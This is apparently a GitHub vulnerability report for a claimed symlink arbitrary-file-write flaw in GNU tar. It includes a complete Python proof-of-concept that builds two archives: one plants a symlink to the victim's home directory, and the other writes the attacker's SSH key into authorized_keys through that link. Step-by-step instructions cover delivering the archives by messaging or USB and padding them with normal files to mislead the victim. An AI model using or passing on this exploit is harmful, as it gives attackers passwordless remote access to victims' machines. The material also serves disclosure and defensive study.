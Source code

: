 # Gnu tar component has a symbolic link arbitrary file write vulnerability
Author: Set3r.Pan
## Report
### Describe
tar is a file packaging format widely used in Unix and Unix-like systems (such as Linux), which supports processing files or directories containing symbolic links (i.e. soft links). The vulnerability stems from the fact that when tar is decompressed, an attacker can construct a malicious tar package with soft links to implement directory traversal and write arbitrary files, such as creating a ~/.ssh/authorized_keys file, thereby implementing a password-free login attack.
### Hazard level
High
### Affected version
Gnu tar < 1.35 

### POC&&EXP
poc explanation： 
1. Modify tar_poc.py  
Line 12: obj1.linkname = "/home/ubuntu/" # Replace with the actual victim machine home directory path  
Line 39: ssh_pubkey = "/home/kali/.ssh/id_rsa.pub" # Replace with the actual attack machine's SSH public key path  
2. Send the two generated compressed packages to the victim via instant messaging software or other media such as a USB flash drive.(The compressed file can also be filled with some normal files to confuse the other party
)  
3. The victim can unzip them in any directory.  
4. The attacker logs in to the victim's machine without a password.  
tar_poc.py  
```
import socket
import tarfile
import os

RANDOM_DIR_NAME = "my_directory"  # Define random directory names

def build_tar_gz_1(tar_gz_file):
    obj1 = tarfile.TarInfo()
    obj1.name = "{}".format(RANDOM_DIR_NAME)  # Set the name of the soft link
    obj1.mode = 0o777  # Set permissions
    obj1.type = tarfile.SYMTYPE  # Set as a soft link
    obj1.linkname = "/home/ubuntu/"  # Replace with the actual victim machine home directory path

    with tarfile.open(tar_gz_file, "w:gz") as tar:
        tar.addfile(obj1)  # Add soft link to tar.gz

def build_tar_gz_2(tar_gz_file, ssh_pubkey):
    obj1 = tarfile.TarInfo()
    obj1.name = "{}/.ssh/".format(RANDOM_DIR_NAME)
    obj1.mode = 0o700
    obj1.type = tarfile.DIRTYPE

    obj2 = tarfile.TarInfo()
    obj2.name = "{}/.ssh/authorized_keys".format(RANDOM_DIR_NAME)
    obj2.mode = 0o400
    obj2.type = tarfile.REGTYPE
    obj2.size = os.path.getsize(ssh_pubkey)

    with tarfile.open(tar_gz_file, "w:gz") as tar:
        tar.addfile(obj1)  # Add .ssh directory
        with open(ssh_pubkey, "rb") as f:
            tar.addfile(obj2, f) # Add authorized_keys file

# Create 1tar.gz file
tar_gz_file = "my_archive1.tar.gz"
build_tar_gz_1(tar_gz_file)  # Create a tar.gz file containing soft links

# Create 2tar.gz file
tar_gz_file = "my_archive2.tar.gz"
ssh_pubkey = "/home/kali/.ssh/id_rsa.pub"  # Replace with the attacker's actual SSH public key path
build_tar_gz_2(tar_gz_file, ssh_pubkey)  # Create a tar.gz file containing the SSH configuration

```
### Vulnerability Reproduction
1、The attacker can send the two tarballs generated by the POC to the victim through instant messaging software or other media such as a USB flash drive. The victim receives and decompresses them in turn:
![](./imgs/Gnu_tar_vuln_1.png)
2、Successfully overwrote .ssh/authorized_keys：
![](./imgs/Gnu_tar_vuln_2.png)
3、Finally, the attacker can log into the victim's machine through SSH without password.
![](./imgs/Gnu_tar_vuln_3.png)

Reproduction video：  
[Watch the repro video](./imgs/Gnu_tar_vuln_3.mp4)
### Attack Exploitation Analysis
There are two risk points in the tar decompression process:  
1. Uncontrollable soft links  
If the tar file contains soft links (symbolic links), any file or directory can be executed across directories. Attackers can use this to create links to important system files or directories.  
2. File name conflicts  
During the decompression process, if there is a file with the same file name as the decompressed file, tar will overwrite the existing file. If the file is a soft link, it will directly overwrite the target file or directory pointed to by its soft link.

An attacker can use the above risk points to attack by making two tar compressed packages:  
- a. Make the first tar package, which contains a soft link to the user's home directory (for example, my_directory);  
- b. Make the second tar package to overwrite the .ssh folder in the user's home directory (for example, my_directory);  
- c. The user decompresses the two packages, first decompresses the first package to create a soft link, and then decompresses the second package to overwrite the .ssh folder;  
- d. The attacker controls the .ssh folder in the home directory through the soft link, and finally obtains the ssh password-free login permission.  

